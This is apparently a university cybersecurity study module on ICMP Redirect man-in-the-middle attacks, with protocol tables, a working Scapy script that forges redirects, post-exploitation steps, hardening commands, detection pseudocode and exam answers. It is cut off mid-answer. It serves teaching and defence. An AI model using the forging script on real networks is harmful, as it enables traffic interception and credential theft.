





# Redirection and Interception with ICMP.

<!-- SECTION_1_START -->
# Redirection and Interception with ICMP — Module 3 | PBCST604

> [!IMPORTANT]
> **KTU 2024 Scheme | Fundamentals of Cyber Security (PBCST604)**
> Module 3 — Network Security
> **Mapped Course Outcomes:** CO2 (Understand network attack vectors and defense mechanisms)
> **Cognitive Level Focus:** Understand → Apply → Analyze

---

## 1. Core Technical Definition & Intuitive Overview

### 1.1 Formal Definition (KTU 2024 Syllabus Terminology)

**ICMP (Internet Control Message Protocol)** is a supporting protocol in the **Internet Protocol (IP) suite**, defined originally in **RFC 792 (1981)** and updated by **RFC 1122** and **RFC 1812**. It is used by network devices (routers, hosts, gateways) to send **error messages** and **operational information** indicating success or failure when communicating with another IP address.

**Redirection and Interception with ICMP** refers to a class of **network-level attacks** where a malicious actor abuses the legitimate ICMP Type 5 ("Redirect") message — or crafts malicious ICMP packets — to:

1. **Redirection** — Alter the routing path of a victim host so that its traffic is forced to flow through an attacker-controlled machine.
2. **Interception** — Capture, inspect, modify, or forward ("man-in-the-middle") the diverted traffic without the victim's awareness.

> [!NOTE]
> **ICMP operates at the Network Layer (Layer 3) of the OSI model**, encapsulated directly inside IP datagrams (Protocol Number **1**). It does **not** use TCP or UDP ports.

### 1.2 Conceptual Analogy (Intuition)

Imagine you live at **House A** and you send all your letters to **House C** through the regular post office at **Building B**. One day, the postmaster at **Building B** (the legitimate router) receives a **signed official-looking memo** saying: *"From tomorrow, please send all letters to House C via House X instead, because House X is a shorter path."*

If the memo is **forged**, and you trust the postmaster, you start sending all your private letters through **House X** (the attacker). **House X** can now:
- **Read** every letter (interception),
- **Photocopy** them (eavesdropping),
- **Modify** the content (tampering),
- **Then forward** the original to House C (so the victim never knows).

This is **exactly** what an **ICMP Redirect attack** does in a TCP/IP network.

### 1.3 Standard Metrics & Parameters

| Parameter | Value | Description |
| :--- | :--- | :--- |
| **IP Protocol Number for ICMP** | **1** | Reserved in the IP header's "Protocol" field |
| **ICMP Type (Redirect)** | **5** | Indicates a redirect message |
| **ICMP Code 1** | Redirect for Host | All traffic for that host |
| **ICMP Code 2** | Redirect for Type of Service & Host | TOS-based redirect |
| **ICMP Code 3** | Redirect for Network | All traffic for that network |
| **ICMP Code 4** | Redirect for Type of Service & Network | TOS + network |
| **Admin-Local Scope TTL** | **255** | Routers must not forward ICMP Redirects across admin boundaries |
| **Default Host Route Metric** | **Lower metric wins** | Determines preferred gateway in routing table |

> [!TIP]
> **GeoGebra / Desmos Visualization (Network Latency):**
> **Concept:** Path latency difference between legitimate path vs. intercepted path.
> **Inputs:**
> * Legitimate path: $f(x) = 12$ ms (constant)
> * Intercepted path: $g(x) = 12 + 8\sin(0.5x) + \epsilon$ ms (variable with added delay)
> **Visual Description:** A horizontal line at 12 ms for the legitimate path, and an oscillating curve between ~4 ms and ~20 ms for the attacked path — illustrating how interception adds jitter.

---

<!-- SECTION_2_START -->
## 2. Deep Theoretical Analysis & KTU High-Yield Formula Sheet

### 2.1 The ICMP Packet Structure

An ICMP message, when encapsulated inside an IP datagram, has the following layout:

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     Type      |     Code      |          Checksum             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Rest of Header (varies by Type)                |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|      Data / Payload (variable, often includes original IP header + 8 bytes) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

**For an ICMP Redirect (Type = 5)**, the "Rest of Header" carries the **IPv4 address of the new gateway (32 bits)** that the host should use.

### 2.2 The Operational Logic — Why ICMP Redirects Exist

The legitimate use of ICMP Redirect is **performance optimization**:

1. A host $H$ sends a packet to destination $D$ via its default gateway $G_1$.
2. $G_1$ realizes the next-hop on its own routing table for $D$ is actually $G_2$, which is on the **same subnet** as $H$.
3. $G_1$ forwards the packet to $G_2$ AND sends an ICMP Redirect (Type 5, Code 1/2/3/4) back to $H$.
4. $H$ updates its **host routing table** to use $G_2$ for $D$ in the future.
5. **Security precondition:** $G_1$ and $G_2$ **must** be on the same Layer-2 segment as $H$ (RFC 1122).

> [!IMPORTANT]
> **The Vulnerability:** RFC 1122 states a router **should not** send a redirect unless both the source and the new gateway are on the same network. However, **most operating systems do not strictly validate** this rule — they will accept the redirect if the new gateway is reachable. This is the **root cause** of the attack.

### 2.3 The Attack Mechanism (How Interception Happens)

The attacker performs the following sequence:

1. **Sniff** the network (e.g., using `tcpdump`, `Wireshark`, or ARP spoofing) to identify victim host $V$ and target destination $D$.
2. **Craft a forged ICMP Redirect** packet:
   * Source IP: The legitimate router $R$ that the victim trusts.
   * Destination IP: The victim $V$.
   * ICMP Type: **5** (Redirect).
   * ICMP Code: **1** (Redirect for Host) or **3** (Redirect for Network).
   * ICMP "New Gateway" field: The **attacker's IP address** $A$.
   * The embedded IP header + 8 bytes of original data (to pass checksum validation if the victim checks).
3. **Send the crafted packet** to the victim. The victim's kernel updates the routing table cache.
4. **Enable IP forwarding** on the attacker's machine (`sysctl -w net.ipv4.ip_forward=1`).
5. The victim's outbound traffic to $D$ is now routed to $A$, which can:
   * Log credentials (HTTP Basic, FTP, Telnet).
   * Modify HTTP responses (inject JavaScript, defacement).
   * Forward to the real destination (transparent proxy / MITM).
6. **Cleanup:** Send a second forged ICMP Redirect restoring the original gateway, or wait for the route cache entry to expire.

### 2.4 Related ICMP-Based Attack Vectors

Beyond Redirect, ICMP is abused in several other ways:

| Attack | ICMP Type Used | Goal |
| :--- | :--- | :--- |
| **ICMP Redirect (MITM)** | Type 5 | Path manipulation → interception |
| **Smurf Attack** | Type 8 (Echo Request) | Amplification DDoS using broadcast |
| **Ping of Death** | Type 8 (oversized) | Buffer overflow crash |
| **ICMP Tunneling (pingtunnel, icmpsh)** | Type 8 / 0 | Bypass firewall, exfiltrate data via ICMP payloads |
| **ICMP Sweep / Ping Sweep** | Type 8 | Network reconnaissance |
| **ICMP Router Discovery (IRDP) Spoof** | Type 9 / 10 | Become default gateway of victim |
| **Tribe Flood Network (TFN)** | Mixed | Coordinated DDoS |

> [!IMPORTANT]
> **ICMP Tunneling** is an **advanced persistent technique** used in modern red-team operations and by malware families like **PingPull** and **ICMPDoor**. It encapsulates TCP/UDP traffic inside ICMP Echo Request/Reply payloads, bypassing firewalls that only inspect ports 80/443.

### 2.5 KTU Formula & Cheat Sheet

| Concept | Formula / Rule | Unit / Notes |
| :--- | :--- | :--- |
| **ICMP Checksum** | $\text{sum} = \sum_{i=1}^{N} W_i + \overline{\text{sum}}$ | One's complement of 16-bit one's complement sum |
| **Effective Bandwidth in ICMP Tunnel** | $B_{eff} = \dfrac{P \cdot 8}{T_{RTT}}$ | $P$ = payload bytes, $T_{RTT}$ = round-trip time |
| **Smurf Amplification Factor** | $A_f = 2^{h-1}$ | $h$ = number of host bits in subnet mask |
| **Path MTU (with ICMP "Frag Needed")** | $PMTU = \min(\text{link MTU along path})$ | Discovered via Type 3 Code 4 |
| **Routing Cache TTL (Linux)** | $\tau_{cache} = 600$ s (default) | Expiry of installed host route |
| **Time Exceeded Threshold** | $\text{Hops remaining} = 0$ | Triggers Type 11 (used by `traceroute`) |
| **Redirect Validity Check** | $\text{Network}(V) = \text{Network}(G_2)$ | RFC 1122 — often **not enforced** |

> [!WARNING]
> **Critical Pitfall:** Do **not** confuse **ICMP Redirect (Type 5)** with **ICMP Router Advertisement (Type 9)**. Type 5 *corrects* an existing route; Type 9 *announces* a new default gateway from scratch (used by IRDP attacks).

### 2.6 Real-World Engineering Utility

* **Penetration Testing:** Tools like **Ettercap**, **Scapy**, **netwox**, and **bettercap** have built-in ICMP redirect modules.
* **IDS/IPS Detection:** Snort rule `sid:1:1000001` (community ruleset) detects anomalous ICMP Redirects from non-gateway IPs.
* **Hardening:** Microsoft Windows disables ICMP Redirect acceptance by default since **Windows 10 / Server 2016**; Linux requires `net.ipv4.conf.all.accept_redirects=0`.
* **Forensics:** Wireshark filter `icmp.type == 5` instantly surfaces all redirect attempts in a packet capture.

---

<!-- SECTION_3_START -->
## 3. Step-by-Step Derivations & Code/Symbolic Implementation

### 3.1 Mathematical Derivation: Checksum Calculation

The ICMP checksum is computed over the **entire ICMP message** (header + data) as a 16-bit one's complement sum.

**Given an ICMP packet with three 16-bit words:**

$$W_1 = 0x0800, \quad W_2 = 0x0000, \quad W_3 = 0x4454$$

(These represent: Type=8, Code=0, Identifier=0x4454 in an Echo Request example.)

**Step 1 — Compute the raw sum:**

$$S = W_1 + W_2 + W_3 = 0x0800 + 0x0000 + 0x4454$$

$$
\begin{aligned}
S &= 2048 + 0 + 17492 \\
  &= 19540 \\
  &= 0x4C54
\end{aligned}
$$

**Step 2 — One's complement of the sum** (this is what goes in the Checksum field on the wire):

$$
\begin{aligned}
\overline{S} &= \sim 0x4C54 \\
            &= 0xB3AB
\end{aligned}
$$

So the transmitted Checksum field = **0xB3AB**.

**Step 3 — Receiver verification:**
The receiver sums `Type + Code + Checksum + Rest + Data`. Since `Checksum` is the complement of the sum of the rest, the total at the receiver is `0xFFFF`, and its one's complement is `0x0000` — meaning **no error**.

### 3.2 Python Implementation — Crafting a Forged ICMP Redirect (Educational Use Only)

> [!WARNING]
> The following code is for **academic understanding and authorized lab exercises only** (e.g., a controlled isolated VM network with `iptables` rules). Executing it on networks you do not own is **illegal** under the **IT Act 2000 (India) §66**, **Computer Misuse Act (UK)**, and **CFAA (USA)**.

```python
#!/usr/bin/env python3
"""
Educational ICMP Redirect forger using Scapy.
Run only on an isolated testbed where you own ALL machines.
"""

import sys
import logging
from scapy.all import IP, ICMP, ICMPredirect, send, conf

# Configure strict logging
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s [%(levelname)s] %(message)s"
)
logger = logging.getLogger("icmp_redirect_lab")

def forge_icmp_redirect(
    victim_ip: str,
    target_network: str,
    legitimate_router_ip: str,
    attacker_new_gateway_ip: str,
    interface: str = "eth0"
) -> None:
    """
    Crafts and sends a forged ICMP Redirect (Type 5, Code 1).
    
    Parameters
    ----------
    victim_ip : str
        IP address of the target host whose routing table we want to poison.
    target_network : str
        The destination network we want to redirect (e.g. "8.8.8.8").
    legitimate_router_ip : str
        The IP we spoof as the source (must be victim's current gateway).
    attacker_new_gateway_ip : str
        Our IP — the "new gateway" we want the victim to use.
    interface : str
        Network interface to send the packet from.
    """
    # Safety: refuse RFC1918 boundaries (basic sanity check)
    if not victim_ip or not legitimate_router_ip:
        logger.error("Missing required IP parameters.")
        sys.exit(1)

    logger.info("Crafting ICMP Redirect packet...")
    logger.info(f"  Victim          : {victim_ip}")
    logger.info(f"  Spoofed Gateway : {legitimate_router_ip}")
    logger.info(f"  New Gateway     : {attacker_new_gateway_ip}")
    logger.info(f"  Target Network  : {target_network}")

    # Build the outer IP header with spoofed source
    outer_ip = IP(
        src=legitimate_router_ip,
        dst=victim_ip,
        ttl=255  # Routers must send with TTL=255 (RFC requirement)
    )

    # Build the inner IP header (the original "trigger" packet)
    original_ip = IP(
        src=victim_ip,
        dst=target_network
    )

    # Build the ICMP Redirect
    redirect = ICMPredirect(
        type=5,           # Redirect
        code=1,           # Redirect for Host
        gw=attacker_new_gateway_ip
    )

    # Assemble the full packet
    # Scapy auto-calculates the ICMP checksum
    packet = outer_ip / redirect / original_ip

    logger.warning("Sending forged packet. Ensure you are on an ISOLATED LAB.")
    send(packet, iface=interface, verbose=True)
    logger.info("Packet sent. Check victim routing table with: ip route get <dst>")


if __name__ == "__main__":
    if len(sys.argv) != 5:
        print("Usage: python3 icmp_redirect.py <victim_ip> <target> "
              "<router_ip> <attacker_ip>")
        sys.exit(1)

    forge_icmp_redirect(
        victim_ip=sys.argv[1],
        target_network=sys.argv[2],
        legitimate_router_ip=sys.argv[3],
        attacker_new_gateway_ip=sys.argv[4],
        interface=conf.iface
    )
```

**How to test safely in a lab:**

```bash
# Terminal 1 — On attacker VM, enable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=1

# Terminal 2 — Run the script
sudo python3 icmp_redirect.py 192.168.56.101 8.8.8.8 192.168.56.1 192.168.56.250

# Terminal 3 — On victim VM, check the poisoned route
ip route get 8.8.8.8
# Expected output: "8.8.8.8 via 192.168.56.250 dev eth0"
```

### 3.3 Hardening Configuration Table (Linux / Windows / Cisco)

| Platform | Command / Setting | Effect |
| :--- | :--- | :--- |
| **Linux (sysctl)** | `net.ipv4.conf.all.accept_redirects=0` | Ignore ICMP Redirects (all interfaces) |
| **Linux (sysctl)** | `net.ipv4.conf.all.send_redirects=0` | Do **not** send ICMP Redirects |
| **Linux (sysctl)** | `net.ipv4.conf.all.secure_redirects=1` | Accept only from currently-used gateways |
| **Windows (PowerShell)** | `Set-NetFirewallRule -DisplayName "ICMP Redirect" -Enabled False` | Block via Windows Firewall |
| **Windows (Registry)** | `HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\EnableICMPRedirect=0` | Disable at kernel level |
| **Cisco IOS** | `interface g0/0` → `no ip redirects` | Router stops sending redirects |
| **iptables (logging)** | `iptables -A INPUT -p icmp --icmp-type redirect -j LOG` | Log all redirect attempts |

> [!TIP]
> **Best Practice (NIST SP 800-41 Rev.1):** Disable ICMP Redirect acceptance on **all end hosts** by default. Allow it only on internal segments where dynamic routing optimization is required and the network is trusted.

### 3.4 Detection Pseudocode (for IDS Rule Design)

```python
def detect_icmp_redirect_anomaly(packet):
    """
    Returns True if the packet is a suspicious ICMP Redirect.
    
    Rule logic (Snort-compatible):
    - type == 5
    - source_ip is NOT in known_gateway_list
    - destination_ip has no matching route in routing table
    - 'new gateway' IP is in different subnet than source/dest
    """
    if packet.icmp_type != 5:
        return False
    
    if packet.src_ip not in KNOWN_GATEWAYS:
        alert("ICMP Redirect from non-gateway source")
        return True
    
    if not same_subnet(packet.src_ip, packet.new_gateway):
        alert("ICMP Redirect cross-subnet (RFC 1122 violation)")
        return True
    
    return False
```

---

<!-- SECTION_4_START -->
## 4. Structural Diagrams & Schematics

### 4.1 Network Topology — Before Attack



### 4.2 Network Topology — After ICMP Redirect Attack



### 4.3 Attack Sequence Flowchart



### 4.4 Defensive Layering Model



### 4.5 ICMP Message Taxonomy



---

<!-- SECTION_5_START -->
## 5. KTU 2024 Scheme Examination Question Bank & Topic Recap

### 5.1 Part A — Short Answer Questions (3 Marks Each)

---

**Q1. [KTU University Exam — July 2024]**
**"What is an ICMP Redirect attack? Mention the ICMP Type and Code used."**
**[CO2 | Remember | 3 Marks]**

**Model Answer (3 Marks):**
* **[1 Mark]** ICMP Redirect attack is a **network-level MITM (Man-in-the-Middle)** technique in which an attacker sends a **forged ICMP Redirect message** to a victim host, instructing it to route all its traffic for a particular destination through the attacker's machine.
* **[1 Mark]** The attacker abuses the **legitimate ICMP Type 5** ("Redirect") message, which is normally sent by routers to inform hosts of a better next-hop gateway.
* **[1 Mark]** The most commonly used **Code value is 1 (Redirect for Host)** or **3 (Redirect for Network)**. The forged packet specifies the attacker's IP in the "New Gateway" field of the ICMP header.

---

**Q2. [KTU University Exam — Dec 2023]**
**"List any three defensive measures against ICMP-based redirection attacks."**
**[CO2 | Understand | 3 Marks]**

**Model Answer (3 Marks):**
1. **[1 Mark]** **Disable ICMP Redirect acceptance** on all end hosts: `sysctl -w net.ipv4.conf.all.accept_redirects=0` (Linux) or set registry key in Windows.
2. **[1 Mark]** **Configure routers to not send redirects** on user-facing interfaces: `no ip redirects` (Cisco IOS).
3. **[1 Mark]** **Deploy an IDS/IPS** (e.g., Snort) with signatures that alert on ICMP Type 5 packets originating from non-gateway IPs or crossing subnet boundaries (RFC 1122 violation).

---

### 5.2 Part B — Long Answer Questions (14 Marks Each)

> [!NOTE]
> KTU 2024 Scheme Part B questions carry **14 marks** with **internal choice**. Each question is split into two 7-mark sub-parts mapping to escalating cognitive levels.

---

### **Part B — Question A (14 Marks)**

**Q3. [KTU University Exam — July 2024, Model Paper 2]**
**(a)** Explain the structure of an ICMP Redirect packet. Mention the role of each field and the conditions under which a router is permitted to send a Redirect message according to RFC 1122. **[7 Marks | CO2 | Understand]**

**(b)** Describe step-by-step how an attacker performs an ICMP Redirect-based Man-in-the-Middle attack. Include a network diagram and at least three indicators of compromise (IoCs) for detection. **[7 Marks | CO2 | Apply]**

---

#### Model Solution — Q3(a) [7 Marks]

**[1 Mark]** The ICMP Redirect packet is encapsulated directly inside an IPv4 datagram (Protocol = 1). It contains:

* **Type field (8 bits) = 5** → Identifies it as a Redirect message.
* **Code field (8 bits) = 1, 2, 3, or 4** → Specifies redirect type (Host / TOS+Host / Network / TOS+Network).
* **Checksum (16 bits)** → One's complement checksum for error detection.
* **New Gateway Address (32 bits)** → The IPv4 address that the host should use as the next hop.
* **Original IP Header + first 8 bytes of payload** → Required so the receiving host can match the redirect to the original datagram that triggered it.

**[2 Marks]** **RFC 1122 Conditions for a router to send a Redirect:**

1. The router must be the **current default gateway** of the sending host.
2. The new gateway ($G_2$) specified in the redirect **must be on the same IP subnet** as the host.
3. The datagram in question is **not source-routed**.
4. The redirect must be sent with **TTL = 255** to ensure the host receives it directly (not via another router).

**[2 Marks]** **Why these conditions matter:**
The router is essentially "advising" the host that a shorter path exists. The condition that $G_2$ must be on the same subnet ensures the host can ARP-resolve $G_2$ directly without going through another router — preserving the optimization.

**[1 Mark]** **Codes in detail:**
* Code 1 → All traffic to that specific Host should be redirected.
* Code 3 → All traffic to that entire Network (e.g., 10.0.0.0/8) should be redirected — more powerful and dangerous.
* Codes 2 and 4 add a Type-of-Service (TOS) qualifier.

**[1 Mark]** **Security observation:**
Most modern OS kernels (Linux, Windows) do **not strictly enforce** the same-subnet check, which is the root vulnerability enabling the attack.

---

#### Model Solution — Q3(b) [7 Marks]

**[1 Mark] — Step 1 (Reconnaissance):**
The attacker connects to the same LAN segment as the victim (wired, Wi-Fi, or post-ARP-spoof on a switched network) and uses passive sniffing (`tcpdump`, `Wireshark`) to identify:
* Victim IP ($V$)
* Victim's default gateway IP ($R$)
* The destination network the victim frequently communicates with ($D$)

**[1 Mark] — Step 2 (Crafting the forged packet):**
Using **Scapy** (Python) or **hping3**, the attacker constructs:

```
IP(src=R, dst=V, ttl=255) / ICMP(type=5, code=1, gw=AttackerIP) 
                          / IP(src=V, dst=D) / ICMP()/Raw(load="x"*8)
```

The `gw=AttackerIP` field redirects $V$'s traffic to the attacker.

**[1 Mark] — Step 3 (Enabling forwarding):**
The attacker runs:
`sysctl -w net.ipv4.ip_forward=1`
This ensures the victim's traffic is **not dropped** (which would cause immediate detection via connection failure) but **forwarded** to the real destination — achieving **transparent MITM**.

**[1 Mark] — Step 4 (Execution):**
The forged ICMP Redirect is sent. Within seconds, the victim's kernel installs a **host route entry** in its routing cache. From this point, all traffic to $D$ flows: $V \rightarrow A \rightarrow R \rightarrow D$.

**[1 Mark] — Step 5 (Post-exploitation):**
* Use `sslstrip` / `mitmproxy` to downgrade HTTPS → HTTP and capture credentials.
* Use `tcpdump -w capture.pcap` for offline analysis.
* Inject malicious JavaScript into HTTP responses (BeEF framework).

**[1 Mark] — Indicators of Compromise (IoCs):**

1. **Wireshark filter:** `icmp.type == 5` showing redirects from non-gateway IPs.
2. **Routing table anomaly:** `ip route get <dst>` on victim returns unexpected gateway IP.
3. **Asymmetric latency:** `traceroute` shows an extra hop not normally present.
4. **TLS certificate warnings:** Browser shows certificate mismatch when attacker tries to intercept HTTPS.
5. **NetFlow anomaly:** Sudden spike in packets routed through a host that previously had no forwarding role.

**[1 Mark] — Network Diagram (ASCII for answer sheet):**

```
   [Victim V] ----> [Attacker A] ----> [Router R] ----> [Server D]
      192.168.1.5   192.168.1.99   192.168.1.1    8.8.8.8
                     (ip_forward=1)
```

---

### **Part B — Question B (14 Marks)** *(Alternative Choice)*

**Q4. [KTU University Exam — Dec 2023, Supplementary]**
**(a)** Differentiate between **ICMP Redirect attack** and **ICMP Router Discovery Protocol (IRDP) attack**. Mention the ICMP Types and explain how each compromises network security. **[7 Marks | CO2 | Understand]**

**(b)** A company has detected unusual ICMP Type 5 packets on its internal LAN. As a security analyst, outline a **complete incident response plan** including containment, eradication, recovery, and lessons learned. Mention at least **four specific sysctl/iptables commands** you would deploy. **[7 Marks | CO2 | Apply]**

---

#### Model Solution — Q4(a) [7 Marks]

| Aspect | ICMP Redirect (Type 5) | IRDP (Types 9 & 10) |
| :--- | :--- | :--- |
| **ICMP Type** | 5 (Redirect) | 9 (Router Advertisement), 10 (Router Solicitation) |
| **Purpose** | Correct an existing route | Announce default gateway availability |
| **Attack Goal** | Force victim to use a *different* gateway for specific traffic | Become the *default* gateway for the entire host |
| **Scope** | Per-destination or per-network (Codes 1-4) | All off-link traffic |
| **Persistence** | Until route cache expiry (~10 min) | Configurable lifetime in advertisement (1-9000 sec) |
| **Detection Ease** | Moderate — visible in packet captures | Harder — looks like legitimate router behavior |

**[3 Marks]** — **Detailed Explanation of ICMP Redirect Attack:**
* The attacker spoofs a router's IP and sends Type 5 with a forged "New Gateway" address.
* Victim updates its **host route cache** entry.
* The victim is unaware that a third party is now seeing its traffic.
* Real-world use: **Ettercap's `icmp_redirect` plugin**.

**[3 Marks]** — **Detailed Explanation of IRDP Attack:**
* The attacker sends unsolicited **ICMP Router Advertisements (Type 9)** with a very high preference (e.g., lifetime 9000 seconds, preference 255).
* The victim host (if IRDP-enabled) installs the attacker's IP as its **default gateway**.
* All off-link traffic is now hijacked — far more powerful than a Redirect.
* Real-world use: **Cain & Abel**, **Scapy** (`IRDP` class).

**[1 Mark]** — **Common defense:** Disable both `accept_redirects` and `accept_ra` (Router Advertisements) on all end hosts; only routers should accept these.

---

#### Model Solution — Q4(b) [7 Marks]

**Incident Response Plan — "ICMP Redirect Incident"**

**[1 Mark] — Phase 1: Identification & Containment:**

* Isolate the affected VLAN / port using the switch management console.
* Capture a full packet trace for forensics:
  `tcpdump -i eth0 -w evidence.pcap 'icmp[0] == 5'`
* Identify the source MAC of the attacker (visible in the Ethernet header of the forged packet).

**[2 Marks] — Phase 2: Eradication (Linux sysctl/iptables commands):**

```bash
# 1. Disable ICMP Redirect acceptance immediately on all hosts
sysctl -w net.ipv4.conf.all.accept_redirects=0
